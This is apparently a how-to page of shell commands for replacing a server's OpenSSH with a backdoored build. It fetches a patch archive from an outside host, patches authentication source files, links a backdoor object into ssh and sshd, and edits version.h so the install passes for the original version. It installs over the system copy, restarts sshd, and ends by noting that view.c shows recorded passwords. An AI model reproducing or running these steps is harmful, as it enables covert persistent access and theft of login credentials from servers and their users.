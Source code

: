 #### donwload package   
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#Install required library   
yum -y install zlib-devel openssl-devel pam-devel   

#run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#add backdoor.o to Makefile   
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   

#compile and install   
make   
make install   

#restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#view.c show the password record   

